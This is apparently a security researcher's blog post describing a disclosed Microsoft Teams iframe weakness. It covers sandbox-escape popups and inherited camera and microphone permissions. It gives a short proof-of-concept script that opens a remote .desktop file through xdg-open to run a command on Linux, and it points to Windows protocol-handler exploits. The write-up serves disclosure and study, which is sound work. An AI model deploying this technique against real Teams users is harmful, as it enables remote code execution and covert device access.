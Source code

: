 ```yaml
---
layout: post
title:  "Microsoft Teams Vulnerabilities and Features!"
description: Lets talk about Microsoft Teams?.
tags: Research
---
```

# Microsoft Teams ~~Vulnerabilities~~ Features! 

In this article, I will gonna talk about research that me and my friends Bigous, Waid, and Bee made in Microsoft Teams a few time ago. This research, although it did not become a bounty, was a very interesting experience that taught us a lot about researching hardened software.

# Iframe
The Iframe, how it works, and the possible vulnerabilities that we can find in this tag is the main part of this entire research. 

While looking for interesting features in the application, we've got the feature of adding websites to add a site for other users to see. So, we decided to take a look into this iframe code:
```html
<iframe ng-if="ctrl.frame && ctrl.frame.type == 'iframe' && ctrl.frame.ready" ng-class="{'embedded-iframe-loading': ctrl.showLoadingIndicator}" title="" class="embedded-iframe embedded-page-content" name="embedded-page-container" sandbox="allow-forms allow-modals allow-popups allow-popups-to-escape-sandbox allow-pointer-lock allow-scripts allow-same-origin allow-downloads" allow="geolocation *; microphone *; camera *; midi *; encrypted-media *" data-tid="embeddedPageContainerIframe" acc-tabbable="true" allowfullscreen="" src="//website.com"></iframe>
```
As you can see, this iframe has a few interesting attributes, being the most interesting: 
- The allow attribute with the values "geolocation *; microphone *; camera *; midi *; encrypted-media *"
- The sandbox attribute with the value "allow-popups-to-escape-sandbox"

So, let's talk about what each of these attributes does exactly.

## The allow attribute
Now, if you are not a web developer you are possibly wondering what the allow attribute does. This specifies a resource policy for the iframe, i.e., it specifies which permissions can be passed from the scope of the parent site to the iframe.

As said before we can abuse the allow attribute: `allow="geolocation *; microphone *; camera *; midi *; encrypted-media *"` to gain access to the browser APIs. The problem is that when a site inside the iframe asks for authorization to access these devices, the authorization request comes from 'teams.microsoft.com', not from the iframe's website, usually by using Teams calls the user has already given these authorizations, so a site inside the iframe can have access to those APIs without permission.


## The sandbox attribute
The sandbox attribute has the value “allow-popups-to-escape-sandbox” set, which means that we can use popups out of the iframe scope, enabling us to escape the sandbox! The popups can be called with the function window.open(), this basically will open another tab in the Teams scope, but this can't only be used to open common URLs, we can use it to open up other applications instead of the system’s default browser eg: calculator://, mailto://, ms-word://... We can also try to manipulate the DOM and try to do some tricks like seen [here][ms-teams-rce], but we are "blocked" from accessing the DOM, limiting a lot the attack surface. 

![](https://i.imgur.com/0mQElWs.png)

### URI schemas

The first thing I think in this type of attack exploring URI schemas is to try to use the file:// protocol, and that's what we tried as soon we realized this possible attack vector, and obviously that doesnt work, this protocol was blocked in the electron, so we need try for another way. Another really cool idea is to use the smb:// protocol to possibly get RCE in the victim or to steal him NTLM hash, but that's disabled too.

After a few time researching about URI protocol schemas, we've found [this article][positive-security], I really recommend that you read it, because that shows us a lot of tricks to use in situations like this.

### RCE on Linux?

From the cited article, the idea of using xdg-open to call a remote .desktop, thus executing code on the victim’s machine seemed like a very interesting one, and that is what we did. So, when our victim access the application part with the Iframe, we’ve successfully Remote Code Execution (in a good part of linux distros).

When we use window.open() pointing to some website with a ‘.desktop’ file, it gets executed, running the command described in the file, for the PoC, we just used the gnome-calculator command, that in a real scenario, could be a malicious Linux command.

![](https://i.imgur.com/QguuccH.png)

Code used in Website:
```htmlembedded=
<script>
window.open('https://yourwebsite.com/poc.desktop')
</script>
```

"poc.desktop" contents:
```htmlembedded=
Desktop Entry]
Version=1.0
Type=Application
Name=RCE
Comment=
Exec=gnome-calculator
Icon=
Path=
Terminal=false
StartupNotify=false
```

### And on Windows?

For obvious reasons the xdg-open will not work in Windows, so we need a different approach to get RCE in it. Unfortunately, we have tried everything on Windows, but we didn't find anything that can lead to a 0 click RCE on Microsoft Teams running on Windows.

But we can already get Remote Code Execution by exploiting vulnerabilities in third-party applications, like [this vulnerability in steam's protocol][steam], [this vulnerability in WinSCP][winscp], or even the CVE 2021-40444 in Microsoft Word.

And we can also use Click-Once applications with 'microsoft-edge://' protocol to get a 1 click RCE, but I will not go deeper into this.

# Microsoft's response

After about a month that we’ve contacted Microsoft, they’ve sent us an email with the following message:

In this case this would be by design functionality. The users are allowed to load external content in that location as a feature. The inability to access the DOM limits the actions of the attacker. We do note, that the window could be clearer in starting that it is external content, and we have forwarded this information over to the product's functional team for review for future versions. For now we are closing this case out as this is currently how this function is intended to work.

# Conclusion

Although Microsoft says it doesn't see this as a security issue, it was a very fun, and very unusual, learning experience that forced me to study a widely used and hardened application.


# References:
1. https://positive.security/blog/url-open-rce
2. https://0x00sec.org/t/using-uri-to-pop-shells-via-the-discord-client/11673
3. https://www.iana.org/assignments/uri-schemes/uri-schemes.xhtml
4. https://github.com/oskarsve/ms-teams-rce
5. https://docs.microsoft.com/visualstudio/deployment/publishing-clickonce-applications

[ms-teams-rce]: https://github.com/oskarsve/ms-teams-rce
[positive-security]: https://positive.security/blog/url-open-rce
[steam]: http://revuln.com/files/ReVuln_Steam_Browser_Protocol_Insecurity.pdf
[winscp]: https://nvd.nist.gov/vuln/detail/CVE-2021-3331
